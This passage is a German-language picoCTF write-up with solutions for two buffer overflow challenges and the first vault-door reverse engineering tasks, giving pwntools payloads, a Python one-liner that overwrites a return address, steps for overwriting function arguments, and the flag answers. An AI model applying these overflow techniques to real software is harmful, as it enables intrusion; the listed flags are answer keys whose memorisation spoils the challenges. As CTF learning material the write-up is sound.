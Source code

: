 ```
vuln = ELF('./vuln')
p32(vuln.symbols['flag'])
```
Den ausgegebene Wert fügt man an die oben herausgefundene Anzahl an Buchstaben, die den Buffer Overflow auslösen, an.
In diesem Fall war der Buffer 76 Zeichen groß. Also muss die Payload: `76*'A'+p32(vuln.symbols['flag'])` sein. Auf dem eigenen PC wird so auch die Flag ausgegeben. Auf dem Server muss noch pwn importiert werden. Dort gibt mand en Befehl `python -c "from pwn import *; print '76*'A'+'\xe6\x85\x04\x08'" | ./vuln"` aus. Schon bekommt man die Flag.

Lösung: picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5b80c9cbf}

## Overflow2
Now try overwriting arguments. Can you get the flag from this program? You can find it in /problems/overflow-2_2_47d6bbdfb1ccd0d65a76e6cbe0935b0f on the shell server. Source.

Bin der Anleitung hier gefolgt: https://www.invidio.us/watch?v=eJ0FmCfD-1g

tl;dr
100 == buffersize --> 100+8xA --> bis zum segmentatino fault.
Dann schaut man mit `dmesg | tail | grep vuln`, ob eine Adresse angegeben ist. Diese muss 414141 anzeigen --> für AAA. Dann ist der richtige Punkt erreicht. Darauf folgen vier beliebige Buchstaben bspw. `CCCC`. Damit man vom Basepointer in den Speicher kommt. Dann gibt man noch die beiden Argumente `(arg1 != 0xDEADBEEF)` und `(arg2 != 0xC0DED00D)` in Little Endian (mit python+pwn --> p32(0xDEADBEEF)). Dann sollte man die flag bekommen.

Lösung: picoCTF{arg5_and_r3turn5ce5cf61a}

## NewOverflow1



# Reverse Engineering
## vault-door-training
Your mission is to enter Dr. Evil's laboratory and retrieve the blueprints for his Doomsday Project. The laboratory is protected by a series of locked vault doors. Each door is controlled by a computer and requires a password to open. Unfortunately, our undercover agents have not been able to obtain the secret passwords for the vault doors, but one of our junior agents obtained the source code for each vault's computer! You will need to read the source code for each level to figure out what the password is for that vault door. As a warmup, we have created a replica vault in our training facility. The source code for the training vault is here: VaultDoorTraining.java

Ganz unten in der Datei im Klartext.

Lösung: picoCTF{w4rm1ng_Up_w1tH_jAv4_fcb79c48f5b}

## vault-door-1
This vault uses some complicated arrays! I hope you can make sense of it, special agent. The source code for this vault is here: VaultDoor1.java
